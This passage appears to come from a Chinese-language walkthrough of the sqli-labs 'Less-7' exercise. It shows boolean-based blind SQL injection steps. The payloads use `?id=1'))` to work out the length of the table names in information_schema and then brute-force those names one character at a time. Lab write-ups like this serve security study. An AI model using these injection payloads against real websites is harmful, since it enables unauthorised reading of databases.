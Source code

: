 修改参数根据页面是否回显正确逐一爆破数据库名



+ 再修改参数同时注入以下语句确定联合数据表名长度

~~~ shell
?id=1')) and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>5 --+
~~~

![Less-7_9](./img/Less-7_9.PNG)



+ 修改参数注入以下语句爆破联合数据表名

~~~ shell
?id=1')) and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>50--+
~~~
